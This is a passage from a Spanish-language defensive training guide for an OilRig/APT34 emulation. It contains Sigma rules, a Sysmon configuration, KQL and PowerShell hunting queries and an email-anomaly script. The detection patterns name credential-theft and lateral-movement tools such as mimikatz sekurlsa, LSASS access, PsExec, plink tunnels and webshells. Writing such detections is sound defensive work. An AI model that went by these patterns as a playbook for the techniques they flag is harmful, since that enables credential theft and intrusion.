        TargetFilename|endswith: '\PSEXESVC.exe'
    condition: selection_service or selection_file
falsepositives:
    - Legitimate administrative use of PsExec
level: high
tags:
    - attack.lateral_movement
    - attack.t1021.002
    - attack.execution
    - attack.t1569.002
```

**5. Detección de Pass-the-Hash:**

```yaml
title: High - Pass-the-Hash Authentication
id: f3d39c45-de1b-4c00-b18d-3b01b2a08a24
status: production
description: Detecta autenticación usando hash NTLM después de credential dump
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4624
        LogonType: 9  # NewCredentials
        AuthenticationPackageName: 'Negotiate'
    timeframe: 30m
    condition: selection | near(EventID=4688 AND Image="*mimikatz*")
falsepositives:
    - Legitimate use of RunAs with /netonly
level: high
tags:
    - attack.lateral_movement
    - attack.t1550.002
```

---

##### **Prioridad 3: Detecciones de Reconocimiento**

**6. Detección de Enumeración de Red:**

```yaml
title: Medium - Rapid Network Enumeration
id: c9a88d89-3d71-4c0e-9e1d-8f5a4e2d7c3b
status: production
description: Detecta ejecución rápida de múltiples comandos de descubrimiento
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\cmd.exe'
        CommandLine|contains:
            - 'net user'
            - 'net group'
            - 'net localgroup'
            - 'ipconfig'
            - 'netstat'
            - 'whoami'
            - 'systeminfo'
    timeframe: 5m
    condition: selection | count() by Computer > 5
falsepositives:
    - IT support and system administrators
    - Automated inventory scripts
level: medium
tags:
    - attack.discovery
    - attack.t1087
    - attack.t1069
    - attack.t1016
```

---

#### **Configuración de Sysmon para Detección**

**sysmon-config.xml optimizado para OilRig:**

```xml
<Sysmon schemaversion="4.82">
  <EventFiltering>

    <!-- Process Creation (EventID 1) -->
    <RuleGroup groupRelation="or">
      <ProcessCreate onmatch="include">

        <!-- Detectar macros de Office ejecutando scripts -->
        <Rule name="Office spawning scripts" groupRelation="and">
          <ParentImage condition="end with">
            WINWORD.EXE
          </ParentImage>
          <ParentImage condition="end with">
            EXCEL.EXE
          </ParentImage>
          <Image condition="end with">cmd.exe</Image>
          <Image condition="end with">powershell.exe</Image>
          <Image condition="end with">wscript.exe</Image>
          <Image condition="end with">cscript.exe</Image>
        </Rule>

        <!-- Detectar webshell (IIS spawning cmd.exe) -->
        <Rule name="Webshell execution" groupRelation="and">
          <ParentImage condition="end with">w3wp.exe</ParentImage>
          <Image condition="end with">cmd.exe</Image>
        </Rule>

        <!-- Detectar Mimikatz -->
        <Rule name="Mimikatz execution">
          <Image condition="contains">mimikatz</Image>
          <CommandLine condition="contains">sekurlsa</CommandLine>
        </Rule>

        <!-- Detectar PsExec -->
        <Rule name="PsExec execution">
          <Image condition="end with">psexec.exe</Image>
          <Image condition="end with">ps.exe</Image>
        </Rule>

        <!-- Detectar Plink (SSH tunneling) -->
        <Rule name="Plink tunneling">
          <Image condition="end with">plink.exe</Image>
          <CommandLine condition="contains"> -R </CommandLine>
          <CommandLine condition="contains"> -L </CommandLine>
        </Rule>

      </ProcessCreate>
    </RuleGroup>

    <!-- Network Connections (EventID 3) -->
    <RuleGroup groupRelation="or">
      <NetworkConnect onmatch="include">

        <!-- Detectar conexiones C2 (beaconing periódico) -->
        <Rule name="Potential C2 beaconing">
          <Image condition="end with">SystemFailureReporter.exe</Image>
          <DestinationPort condition="is">443</DestinationPort>
        </Rule>

        <!-- Detectar SSH tunnels -->
        <Rule name="SSH tunneling">
          <Image condition="end with">plink.exe</Image>
          <DestinationPort condition="is">22</DestinationPort>
        </Rule>

        <!-- Detectar conexiones desde SQL hacia Exchange (RDAT) -->
        <Rule name="SQL to Exchange connection">
          <Image condition="contains">VMware.exe</Image>
          <Image condition="contains">RDAT</Image>
          <DestinationIp condition="is">10.1.0.6</DestinationIp>
          <DestinationPort condition="is">443</DestinationPort>
        </Rule>

      </NetworkConnect>
    </RuleGroup>

    <!-- Process Access (EventID 10) - LSASS Access -->
    <RuleGroup groupRelation="or">
      <ProcessAccess onmatch="include">

        <Rule name="LSASS memory access">
          <TargetImage condition="end with">lsass.exe</TargetImage>
          <GrantedAccess condition="contains any">0x1010;0x1038;0x1400;0x1fffff</GrantedAccess>
        </Rule>

      </ProcessAccess>
    </RuleGroup>

    <!-- File Creation (EventID 11) -->
    <RuleGroup groupRelation="or">
      <FileCreate onmatch="include">

        <!-- Detectar creación de archivos sospechosos -->
        <Rule name="Suspicious file creation">
          <TargetFilename condition="contains">\AppData\Local\SystemFailureReporter\</TargetFilename>
          <TargetFilename condition="end with">update.xml</TargetFilename>
          <TargetFilename condition="end with">fsociety.dat</TargetFilename>
        </Rule>

        <!-- Detectar WebShell creation -->
        <Rule name="WebShell creation">
          <TargetFilename condition="contains">\inetpub\</TargetFilename>
          <TargetFilename condition="contains">\Exchange Server\</TargetFilename>
          <TargetFilename condition="end with">.aspx</TargetFilename>
        </Rule>

        <!-- Detectar PSEXESVC -->
        <Rule name="PsExec service file">
          <TargetFilename condition="end with">\PSEXESVC.exe</TargetFilename>
        </Rule>

      </FileCreate>
    </RuleGroup>

    <!-- Image Load (EventID 7) - DLL Loading -->
    <RuleGroup groupRelation="or">
      <ImageLoad onmatch="include">

        <!-- Detectar uso de Windows Vault APIs -->
        <Rule name="Windows Vault DLL loading">
          <ImageLoaded condition="end with">vaultcli.dll</ImageLoaded>
        </Rule>

      </ImageLoad>
    </RuleGroup>

  </EventFiltering>
</Sysmon>
```

---

#### **Hunting Queries**

**Query 1: Buscar cadena completa de ataque de OilRig:**

```kql
// KQL query para Azure Sentinel / Microsoft Sentinel
DeviceProcessEvents
| where Timestamp > ago(7d)
| where ProcessCommandLine has_any ("whoami", "net user", "net group", "ipconfig /all")
| where InitiatingProcessFileName in~ ("cmd.exe", "powershell.exe")
| where InitiatingProcessParentFileName in~ ("WINWORD.EXE", "EXCEL.EXE", "w3wp.exe")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessParentFileName
| join kind=inner (
    DeviceFileEvents
    | where Timestamp > ago(7d)
    | where FileName has_any ("mimikatz", "psexec", "plink", "PSEXESVC")
) on DeviceName
| join kind=inner (
    DeviceNetworkEvents
    | where Timestamp > ago(7d)
    | where RemotePort == 22 or (RemotePort == 443 and InitiatingProcessFileName !in~ ("chrome.exe", "firefox.exe", "msedge.exe"))
) on DeviceName
| summarize
    FirstSeen=min(Timestamp),
    LastSeen=max(Timestamp),
    SuspiciousProcesses=make_set(FileName),
    Commands=make_set(ProcessCommandLine),
    NetworkConnections=make_set(RemoteIP)
    by DeviceName, AccountName
| where array_length(SuspiciousProcesses) >= 2
```

**Query 2: Detectar uso de credenciales comprometidas:**

```kql
// Buscar patrón Pass-the-Hash después de credential dump
SecurityEvent
| where TimeGenerated > ago(1d)
| where EventID == 4624  // Successful logon
| where LogonType == 9  // NewCredentials (RunAs)
| where AuthenticationPackageName == "Negotiate"
| extend Account = strcat(AccountDomain, "\\", AccountName)
| join kind=inner (
    SecurityEvent
    | where TimeGenerated > ago(1d)
    | where EventID == 4688  // Process creation
    | where Process has_any ("mimikatz", "procdump", "comsvcs.dll")
) on Computer
| where (Event_CreatedTime1 - Event_CreatedTime) between (0min .. 30min)
| project TimeGenerated, Computer, Account, IpAddress, LogonType, WorkstationName
```

**Query 3: Buscar exfiltración vía EWS:**

```powershell
# PowerShell hunting query en Exchange
$suspiciousActivity = Get-MessageTrackingLog -Start (Get-Date).AddDays(-7) -ResultSize Unlimited |
    Where-Object {
        $_.EventId -eq 'SEND' -and
        $_.TotalBytes -gt 100000 -and
        $_.RecipientAddress -notlike '*@boom.box'  # External recipients
    } |
    Group-Object SenderAddress, {$_.Timestamp.Date} |
    Where-Object { $_.Count -gt 20 } |  # More than 20 large emails per day
    ForEach-Object {
        [PSCustomObject]@{
            Sender = $_.Values[0]
            Date = $_.Values[1]
            EmailCount = $_.Count
            TotalSizeMB = [math]::Round(($_.Group | Measure-Object TotalBytes -Sum).Sum / 1MB, 2)
            UniqueRecipients = ($_.Group.Recipients | Select-Object -Unique).Count
            FirstEmail = ($_.Group.Timestamp | Measure-Object -Minimum).Minimum
            LastEmail = ($_.Group.Timestamp | Measure-Object -Maximum).Maximum
            TimeSpan = New-TimeSpan -Start ($_.Group.Timestamp | Measure-Object -Minimum).Minimum `
                                     -End ($_.Group.Timestamp | Measure-Object -Maximum).Maximum
        }
    } |
    Where-Object { $_.TimeSpan.TotalHours -lt 2 }  # High volume in short time

$suspiciousActivity | Format-Table -AutoSize
```

---

#### **Recomendaciones de Monitoreo Continuo**

**1. Baseline de Comportamiento Normal:**

```python
# Script Python para establecer baseline de actividad de email
import pandas as pd
from datetime import datetime, timedelta

def establish_email_baseline(user_email, days=30):
    """
    Establece baseline de comportamiento de envío de emails para un usuario
    """
    # Obtener logs de Exchange de últimos 30 días
    logs = get_exchange_logs(user_email, days)

    baseline = {
        'user': user_email,
        'avg_emails_per_day': logs.groupby(logs['timestamp'].dt.date).size().mean(),
        'max_emails_per_day': logs.groupby(logs['timestamp'].dt.date).size().max(),
        'avg_attachment_size': logs['total_bytes'].mean(),
        'common_recipients': logs['recipient'].value_counts().head(10).to_dict(),
        'common_send_times': logs['timestamp'].dt.hour.value_counts().head(5).to_dict(),
        'external_recipient_ratio': (logs['recipient'].str.contains('@boom.box') == False).mean()
    }

    return baseline

def detect_anomaly(user_email, current_activity, baseline):
    """
    Detecta anomalías comparando actividad actual con baseline
    """
    anomalies = []

    # Volumen anómalo
    if current_activity['emails_today'] > baseline['avg_emails_per_day'] * 5:
        anomalies.append({
            'type': 'high_volume',
            'severity': 'high',
            'details': f"Sent {current_activity['emails_today']} emails (baseline: {baseline['avg_emails_per_day']:.1f})"
        })

    # Tamaño de adjuntos anómalo
    if current_activity['avg_attachment_size'] > baseline['avg_attachment_size'] * 10:
        anomalies.append({
            'type': 'large_attachments',
            'severity': 'medium',
            'details': f"Avg attachment: {current_activity['avg_attachment_size']/1024:.1f} KB (baseline: {baseline['avg_attachment_size']/1024:.1f} KB)"
        })

    # Destinatarios inusuales
    unusual_recipients = set(current_activity['recipients']) - set(baseline['common_recipients'].keys())
    if len(unusual_recipients) > 5:
        anomalies.append({
            'type': 'unusual_recipients',
            'severity': 'medium',
            'details': f"{len(unusual_recipients)} new recipients detected"
        })

    return anomalies
```

**2. Dashboard de Monitoreo SOC:**

```
┌──────────────────────────────────────────────────────────────────┐
│ OilRig TTPs Detection Dashboard                                 │
├──────────────────────────────────────────────────────────────────┤
│                                                                  │
│ Critical Alerts (Last 24h):                                     │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ [!] LSASS Access Detected         │ 3 alerts │ CRITICAL   │ │
│ │ [!] WebShell Activity             │ 1 alert  │ CRITICAL   │ │
│ │ [!] Mass Email Sending            │ 2 alerts │ CRITICAL   │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ High Priority Alerts:                                           │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ [ ] PsExec Usage                  │ 5 alerts │ HIGH       │ │
│ │ [ ] Pass-the-Hash Auth            │ 2 alerts │ HIGH       │ │
│ │ [ ] SSH Tunneling                 │ 1 alert  │ HIGH       │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ Indicators Timeline:                                            │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ 09:00 │ Phishing email received                           │ │
│ │ 09:15 │ Macro execution detected                          │ │
│ │ 09:20 │ Scheduled task created (SystemFailureReporter)   │ │
│ │ 09:25 │ C2 beaconing started                              │ │
│ │ 10:30 │ WebShell installed on Exchange                    │ │
│ │ 11:00 │ Mimikatz execution detected                       │ │
│ │ 11:15 │ SSH tunnel established                            │ │
│ │ 12:00 │ Lateral movement to SQL (PsExec)                  │ │
│ │ 13:00 │ Mass email exfiltration detected                  │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ Affected Assets:                                                │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ THEBLOCK (10.1.0.5)      │ Initial compromise             │ │
│ │ WATERFALLS (10.1.0.6)    │ Webshell, credential dump      │ │
│ │ ENDOFROAD (10.1.0.7)     │ Data exfiltration              │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ Compromised Accounts:                                           │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ BOOMBOX\gosta            │ Initial access, email exfil    │ │
│ │ BOOMBOX\tous             │ Pass-the-Hash, SQL access      │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
└──────────────────────────────────────────────────────────────────┘
```

---

#### **Métricas de Efectividad de Detección**

**Coverage Map por Técnica MITRE ATT&CK:**

| Tactic | Technique | Detection Coverage | MTTD* | Tools/Sources |
|--------|-----------|-------------------|-------|---------------|
| Initial Access | T1566.002 | ✓✓✓ Alta | < 1 hour | Email gateway, Proxy |
| Execution | T1059.005 (VBA) | ✓✓✓ Alta | < 5 min | Sysmon, EDR |
| Persistence | T1053.005 (Sched Task) | ✓✓✓ Alta | < 5 min | Event 4698, Sysmon |
| Credential Access | T1003.001 (LSASS) | ✓✓✓ Alta | Real-time | Sysmon, EDR |
| Credential Access | T1555 (Vault) | ✓✓ Media | < 15 min | Sysmon DLL load |
| Lateral Movement | T1021.002 (SMB/Admin) | ✓✓✓ Alta | < 5 min | Event 5145, Firewall |
| Lateral Movement | T1550.002 (PTH) | ✓✓ Media | < 10 min | Event 4624, Correlation |
| Command & Control | T1071.001 (HTTP) | ✓✓ Media | < 30 min | Network logs, IDS |
| Command & Control | T1572 (Tunneling) | ✓✓✓ Alta | < 5 min | Firewall, Process logs |
| Exfiltration | T1048.003 (Alt Protocol) | ✓✓✓ Alta | < 15 min | Exchange logs, SIEM |
| Exfiltration | T1027.003 (Steganography) | ✓ Baja | Manual analysis | File analysis, DLP |
| Defense Evasion | T1070.004 (File Deletion) | ✓✓ Media | < 30 min | Event 4660, FIM |

*MTTD = Mean Time To Detect

---

<!-- ## Conclusión de la Parte 3

Este análisis técnico profundo proporciona una comprensión completa de:

1. **Malware utilizado:** Arquitectura, funcionalidad, técnicas de evasión y IOCs de SideTwist, VALUEVAULT, TwoFace y RDAT
2. **Infraestructura:** Configuración completa de red, sistemas, servicios y flujos de comunicación
3. **Detección:** Estrategias en capas, reglas Sigma, configuración de Sysmon, hunting queries y métricas de efectividad

**Aplicación Práctica:**

Los defensores pueden utilizar este conocimiento para:
- Implementar detecciones específicas contra TTPs de OilRig
- Configurar logging y monitoring comprehensivo
- Realizar threat hunting proactivo
- Mejorar la postura de seguridad general

**Próximos Pasos Recomendados:**

1. Implementar configuración de Sysmon en todos los endpoints
2. Desplegar reglas Sigma en SIEM
3. Establecer baselines de comportamiento normal
4. Realizar purple team exercises basados en este escenario
5. Actualizar runbooks de respuesta a incidentes

---

**Fin del Documento Educativo**

Este documento ha cubierto completamente la emulación del ataque de OilRig, desde el contexto inicial hasta el análisis técnico profundo. Los estudiantes ahora tienen el conocimiento necesario para comprender, detectar y defender contra este tipo de amenazas persistentes avanzadas. -->

---

<!-- # Parte 4: Guía de Laboratorio Práctico

## 4.1 Configuración del Entorno

[Sección a desarrollar] -->

---

<!-- ## 4.2 Ejecución de la Emulación

[Sección a desarrollar] -->

---

<!-- ## 4.3 Ejercicios para el Equipo Azul

[Sección a desarrollar] -->

---

## Apéndices

### Apéndice A: Tabla de Referencia de Técnicas MITRE ATT&CK

| ID Técnica | Nombre | Paso(s) | Descripción |
|-----------|---------|---------|-------------|
| T1566.002 | Phishing: Spearphishing Link | 1 | Envío de enlace malicioso por correo electrónico |
| T1204.002 | User Execution: Malicious File | 1 | Usuario abre documento y habilita macros |
| T1059.005 | Command and Scripting Interpreter: Visual Basic | 1 | Macros VBA ejecutan código malicioso |
| T1082 | System Information Discovery | 1, 2 | Recopilación de información del sistema |
| T1033 | System Owner/User Discovery | 1, 2 | Identificación de usuario actual |
| ... | ... | ... | ... |

### Apéndice B: Referencia de Comandos y Herramientas

[Sección a desarrollar]

---

### Apéndice C: Indicadores de Compromiso (IOCs)

[Sección a desarrollar]

---

### Apéndice D: Lecturas Adicionales y Fuentes de CTI

#### Reportes de Inteligencia de Amenazas

1. **Check Point Research (2021)**
   - Título: "Iran's APT34 Returns with an Updated Arsenal"
   - URL: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
   - Tema: Actualización sobre herramientas de OilRig, incluyendo SideTwist

2. **Palo Alto Networks Unit 42**
   - "The OilRig Campaign: Attacks on Saudi Arabian Organizations Deliver Helminth Backdoor"
   - URL: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

3. **Mandiant**
   - "Hard Pass: Declining APT34's Invite to Join Their Professional Network"
   - URL: https://www.mandiant.com/resources/hard-pass-declining-apt34-invite-to-join-their-professional-network
   - Tema: Análisis de VALUEVAULT y técnicas de credential harvesting

4. **Intezer**
   - "New Iranian Campaign Tailored to US Companies Uses Updated Toolset"
   - URL: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/

<!-- #### Recursos Técnicos

[Sección a desarrollar]
 -->
---

### Apéndice E: Glosario de Términos

**APT (Advanced Persistent Threat):** Amenaza persistente avanzada. Actor de amenaza sofisticado, típicamente patrocinado por estado-nación, que mantiene presencia prolongada en redes objetivo.

**Backdoor:** Programa malicioso que proporciona acceso remoto no autorizado a un sistema comprometido.

**Beacon:** Comunicación periódica desde un sistema comprometido hacia servidor C2 para recibir comandos.

**C2 (Command and Control):** Infraestructura que permite a atacantes comunicarse con sistemas comprometidos y enviar comandos.

**Credential Dumping:** Técnica de extracción de credenciales (contraseñas, hashes) desde sistemas comprometidos.

**EWS (Exchange Web Services):** API de Microsoft Exchange que permite acceso programático a datos de Exchange.

**Killswitch:** Mecanismo que termina ejecución de malware bajo condiciones específicas.

**Lateral Movement:** Técnicas utilizadas para moverse de un sistema comprometido a otros sistemas dentro de la misma red.

**Pass-the-Hash:** Técnica de autenticación usando hash NTLM directamente sin conocer contraseña en texto claro.

**Persistence:** Técnicas para mantener acceso a sistema comprometido entre reinicios y cambios de configuración.

**Spearphishing:** Phishing dirigido a individuos o organizaciones específicas con contenido personalizado.

**Webshell:** Script malicioso instalado en servidor web que proporciona acceso remoto vía peticiones HTTP/HTTPS.

**XOR:** Operación de cifrado simple usada frecuentemente por malware para ofuscar comunicaciones.

---

### Información del Documento

**Versión:** 1.0
**Fecha de Creación:** 2025-10-19
**Basado en:** MITRE ATT&CK Evaluations - OilRig Adversary Emulation
**Nivel Técnico:** Intermedio
**Idioma:** Español

**Propósito Educativo:**
Este documento ha sido creado con fines estrictamente educativos y de investigación en seguridad defensiva. El conocimiento aquí presentado debe utilizarse únicamente para mejorar capacidades defensivas, validar controles de seguridad, y entrenar equipos de seguridad en entornos controlados y autorizados.

**Advertencia Legal:**
El uso de las técnicas y herramientas descritas en este documento contra sistemas sin autorización explícita es ilegal y está sujeto a sanciones penales y civiles. El lector asume toda responsabilidad por el uso de la información aquí contenida.

---

**Agradecimientos:**
Este material educativo se basa en el trabajo del equipo de MITRE ATT&CK Evaluations y en investigación de inteligencia de amenazas de Check Point Research, Palo Alto Networks Unit 42, Mandiant, y otros investigadores de seguridad citados a lo largo del documento.

---

